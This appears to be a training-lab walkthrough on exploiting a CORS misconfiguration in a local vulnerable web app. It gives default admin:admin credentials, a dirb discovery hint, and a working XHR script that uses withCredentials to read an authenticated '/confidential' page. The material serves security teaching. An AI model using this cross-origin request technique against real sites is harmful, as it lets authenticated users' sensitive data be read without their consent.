


# CORS misconfiguration

CORS defines a way in which a browser and server can interact to determine whether or not it is safe to allow the cross-origin request. It allows for more freedom and functionality than purely same-origin requests.

We find a lot of vulnerabilities these days that have CORS misconfigured.
This misconfiguration allows to make XHR get requests on an authenticated users behalf
and steal sensitive information from the server!

### Objectives

* Read sensitive information from the "/confidential" page by means of exploiting the misconfigured CORS settings

#### The issue?

Rather than explaining myself please refer to the following blog to read all about the 
issue at hand:

The source is found [here](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)


### Spoiler 1 - discovery

You can find the vulnerable link after loggin in with either:

```
link: http://0.0.0.0:8081/login
user : admin:admin
```

Or by finding a obscure backdoor by running "dirb" against the web-server


Please refer to the following page:

```
http://0.0.0.0:8081/confidential
```

Here we will find this page:



Whenever we do a GET request on this page and we add an origin header to the request we 
create the following response.




### Spoiler 2 - exploitation

Now, the idea is to make an XHR GET request on the authenticated users' behalf

To do so we create a HTML page with the following script in it:

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'http://0.0.0.0:8081/confidential', true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        document.getElementsByTagName("p")[0].innerHTML = req.responseText;
    }
</script>

<p></p>
```

This script will make a cross origin request to the target application and puts the output of the 
response in the paragrapgh tags.

Now, this attack works pretty much like CSRF, it leans on the behaviour of your browsers cookie jar
and the appending of the session cookie to requests. 

Remeber this CORS header

```
Access-Control-Allow-Credentials: true
```
This header wil ultimately help us achieve our goal!

Now look at the result:


Highlighed in red we see the target page. If you look at what is highlighted in blue you see
this is just a local HTML file that does the XHR get request to the target server.

Highlighted in purple you see the super secret information as a result.

*Disclaimer:* In a real situation you wil most likely need to build your own small web-server
to do the XHR GET request from. 